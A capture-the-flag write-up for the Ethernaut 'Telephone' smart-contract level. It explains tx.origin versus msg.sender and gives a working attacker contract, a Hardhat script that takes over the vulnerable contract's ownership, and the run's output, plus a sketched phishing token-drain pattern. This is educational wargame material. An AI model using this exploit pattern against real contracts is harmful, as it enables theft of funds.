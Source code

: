 ```yaml
---
title: Ethernaut Telephone
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Telephone challenge writeup
---
```


## Telephone

### Challenge

Claim ownership of the contract below to complete this level.

  Things that might help

* See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Background

This challenge only requires differenciating between `tx.origin` and `msg.sender`. The difference between the two is that the one (`tx.origin`) is who initiated the transaction while the other (`msg.sender`) is who triggered the call. In a simple transaction where all interactions are within the same contract, both `tx.origin` and `msg.sender` are the same address, that of the `EOA` that triggered the transaction. When a contract is interacting with another contract, then for the caller contract, both `tx.origin` and `msg.sender` are the same, while for the callee contract, the `tx.origin` is the `EOA` that initiated the transaction while the `msg.sender` is the caller contract.

### Attack

The attack is very simple, in order change owner we need to trigger the contract with different `msg.sender` and `tx.origin` values.

* Deploy an attacker controlled contract that can call `changeOwner`.
* Trigger the attacker controlled contract to call `changeOwner`

#### TelephoneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '../challenges/Telephone.sol';

contract TelephoneSolve {

  constructor() public {}

  function changeOwner(address _telephoneAddress, address _newOwner) public returns (bool) {
    Telephone telephoneContract = Telephone(_telephoneAddress);
    telephoneContract.changeOwner(_newOwner);
  }
}
```

#### telephone-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    telephoneAddress = "0xd7169D9972e3a4083a2d716f3E4a26F2D9A5605c";
    contract = await ethers.getContractAt("Telephone", telephoneAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    TelephoneSolve = await ethers.getContractFactory("TelephoneSolve");
    telephoneSolve = await TelephoneSolve.deploy();
    await telephoneSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // trigger change owner
    tx = await telephoneSolve.connect(account).changeOwner(
        contract.address, 
        account.address, 
    )
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/telephone-solve.js --network rinkeby
Level address   : 0xd7169D9972e3a4083a2d716f3E4a26F2D9A5605c
Contract Owner  : 0x0b6F6CE4BCfB70525A31454292017F640C10c768
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.
```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

